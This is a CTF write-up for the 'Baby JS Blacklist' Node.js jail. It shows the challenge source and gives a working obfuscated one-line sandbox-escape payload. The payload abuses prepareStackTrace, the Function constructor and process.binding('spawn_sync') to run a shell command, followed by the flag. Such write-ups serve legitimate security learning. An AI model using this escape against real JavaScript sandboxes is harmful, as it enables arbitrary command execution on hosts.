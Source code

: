 # Baby JS Blacklist
> I hate functions. I hate them so much, that I made it so that you can never call them!

> Note: Solving this challenge will unlock another challenge, "JS Blacklist".

## About the Challenge
We got a server to connect and also the source code. Here is the content of `chal.js`:

```javascript
import * as parser from "@babel/parser";
import _traverse from "@babel/traverse";
import _generate from "@babel/generator";
const traverse = _traverse.default;
const generate = _generate.default;
import readline from "readline";

class Jail {
  constructor() {
    this.rl = readline.createInterface({
      input: process.stdin,
      output: process.stdout,
    });
    this.loopInput();
  }

  async loopInput() {
    while (true) {
      const input = await this.promptForInput();
      this.processInput(input);
    }
  }

  promptForInput() {
    return new Promise((resolve) => {
      this.rl.question("Enter JavaScript code (one line): ", resolve);
    });
  }

  processInput(input) {
    try {
      const ast = this.parseCodeToAST(input);
      const isSafe = this.checkSafe(ast);

      if (!isSafe) {
        throw new Error("Unsafe code detected!");
      }
      const output = this.generateCodeFromAST(ast, input);
      this.evaluateCode(output);
    } catch (error) {
      console.log("Error:", error.message);
    }
  }

  parseCodeToAST(code) {
    return parser.parse(code, {
      sourceType: "module",
      plugins: [],
    });
  }

  checkSafe(ast) {
    return this.noCallExpressions(ast);
  }

  noCallExpressions(ast) {
    let hasCallExpression = false;

    traverse(ast, {
      CallExpression(path) {
        hasCallExpression = true;
        path.stop();
      },
    });

    return !hasCallExpression;
  }

  generateCodeFromAST(ast, originalCode) {
    return generate(ast, {}, originalCode);
  }

  evaluateCode({ code }) {
    try {
      console.log(eval(code));
    } catch (error) {
      console.log("Error evaluating code:", error.message);
    }
  }
}

new Jail();
```

This is a simple JavaScript program that creates a basic interactive environment. It continuously takes user input (JavaScript code) through the console, checks if the input is safe (doesn't contain function calls), converts the input into an Abstract Syntax Tree (AST), generates code from the AST, and then evaluates and prints the result. The goal is to prevent potentially unsafe code (with function calls) from being executed. The program uses the Babel library for parsing, traversing, and generating JavaScript code.

![flag](images/preview.png)

## How to Solve?
Im using a solver from TSGCTF 2023 - Functionless (You can check the solver [here](https://gist.github.com/arkark/a31f57c271e4aca4516c5a7072845aca)) but I modifed the code. Instead of calling `process.mainModule.require` function, I changed it by calling `process.binding`. Anyway here is the final payload I used to execute `cat` command to read flag file

```
globalThis.constructor.constructor.prototype.toString = globalThis.constructor.constructor.prototype.call; Error.stackTraceLimit = 0; globalThis.constructor.prototype.prepareStackTrace = globalThis.constructor.constructor; const err = new Error; err.name = "x = \x28\x28\x29 => { console.log\x28this.constructor.constructor\x28`let args = {\"args\":[\"sh\", \"-c\", \"cat flag\"],\"file\":\"sh\",\"stdio\":[{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true}]}; return process.binding\x28'spawn_sync'\x29.spawn\x28args\x29.output[1].toString\x28\x29`\x29\x28\x29\x29; }\x29\x28\x29"; err
```

![flag](images/flag.png)

## Flag

```
uoftctf{b4by_j4v4scr1p7_gr3w_up_4nd_b3c4m3_4_h4ck3r}
```